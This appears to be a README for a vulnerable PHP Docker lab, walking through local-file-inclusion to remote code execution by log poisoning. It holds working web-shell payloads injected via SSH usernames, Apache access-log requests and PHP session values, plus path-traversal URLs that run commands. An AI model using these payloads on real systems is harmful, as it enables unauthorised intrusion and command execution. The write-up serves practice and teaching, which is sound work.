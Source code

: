 # Build Image
```
$ sudo docker build -t my-php-app .
```

# Run Container
```
$ sudo docker run -d --name my-running-app my-php-app

ba9f2ada7228.............................
```

# Hack It!
There is many way to get flag but the main attack is "lfi to rce". We choose to go with stored way.

CheatSheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

## Stored RCE
The consept is using to any of log files for store our php code. Some of these are; http access log (for apache: `/var/log/apache2/access.log`, for nginx `/var/log/nginx/access.log`), ssh auth log (`/var/log/auth.log`) ...

### Using SSH
```
$ ssh '<?=shell_exec($_GET["cmd"])?>@example.com'
```
When we try to connect our log saved under `/var/log/auth.log`.

```
........
May  1 16:17:43 owl sshd[9024]: Accepted publickey for root from 192.168.0.101 port xxxx ssh2
May  1 20:17:43 owl sshd[9024]: ... <?=shell_exec($_GET["cmd"])?> from 121.2xx.xx.xxx port xxxx ssh2
........
```

Now we can access our shell.
`/index.php?page=../../../../../var/log/auth.log&cmd=ls`

### Using Access Log
Send GET request including our php code.
```
GET /test.php <?=system($_GET["cmd"])?> 
```
Now our access log saved into `/var/log/apache2/access.log` (if server uses apache with default configurations).
```
...
172.17.0.1 - - [28/Mar/2020:11:31:58 +0000] "GET /test.php <?=system($_GET["cmd"])?>" 400 0 "-" "-"
...
```
Now we can access our shell.
`/index.php?page=../../../../../var/log/apache2/access.log&cmd=ls`

### Bonus: Using PHP Sessions
Find anything stored in session, like username etc. And type your code and save it to session. Open developer tools and get your session id from cookie `PHPSESSID`. Your session stored in `/tmp/sess_YOUR-PHPSESSID`. Forexample if you enter your user name `test` and if your PHPSESSID value `aecfe47a0f5a42e1bc5941893d45b223` 
```
root@ba9f2ada7228:/# cat /tmp/sess_aecfe47a0f5a42e1bc5941893d45b223 
user|s:4:"test";
```

if you set your user name <?=shell_exec($_GET[cmd]);?>
```
root@ba9f2ada7228:/# cat /tmp/sess_aecfe47a0f5a42e1bc5941893d45b223 
user|s:28:"<?=shell_exec($_GET[cmd]);?>";
```
Now we can access our shell.
`/index.php?page=../../../../../tmp/sess_aecfe47a0f5a42e1bc5941893d45b223&cmd=ls`